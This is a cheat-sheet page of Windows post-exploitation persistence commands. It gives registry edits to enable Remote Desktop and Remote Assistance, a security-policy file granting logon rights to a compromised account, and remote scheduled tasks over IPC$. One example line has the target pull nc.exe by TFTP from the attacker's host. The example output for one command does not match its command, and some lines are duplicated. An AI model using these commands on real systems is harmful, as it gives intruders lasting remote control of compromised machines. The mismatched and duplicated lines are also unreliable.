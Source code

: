 <!-- Code for collapse and expand -->
<script type="text/javascript"> 
$(document).ready(function() { 
$('div.view').hide(); 
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast'); 
return false; 
}); 
}); 
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.

### Remote Assistance Enable
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f`
 * **Description**: **Must be admin to run this.** Enable remote assistance through adding a registry entry on the local system.
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 2008:** Show/Hide</div><div class="view"><code>C:\Windows\system32>reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
The operation completed successfully.</code></div> 

### Remote Desktop Enable - Method 1
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f`
 * **Description**: **Must be admin to run this.** Enable remote desktop through adding a registry entry on the local system.
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 2008:** Show/Hide</div><div class="view"><code>C:\Windows\system32>reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
The operation completed successfully.</code></div> 

### Remote Desktop Enable - Method 2
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.

    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

 1. Create another file named `enable_ts.reg` containing the contents below. 

    <pre>
     Windows Registry Editor Version 5.00
     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
     "fDenyTSConnections"=dword:00000000
     "TSEnabled"=dword:00000001
     "TSUserEnabled"=dword:00000000
    </pre>

 1. On the remote system, execute the following commands:
      
    <pre>c:\> sc config termservice start= auto sc config termservice start= auto
c:\> regedit /s enable_ts.reg
c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb
c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb
c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini
c:\> gpupdate /Force
c:\> net start "terminal services"
</pre>


### Scheduler
The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.

<pre>
c:\> net use \\[TargetIP]\ipc$ password /user:username
c:\> at \\[TargetIP] 12:00 pm command
</pre>

An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`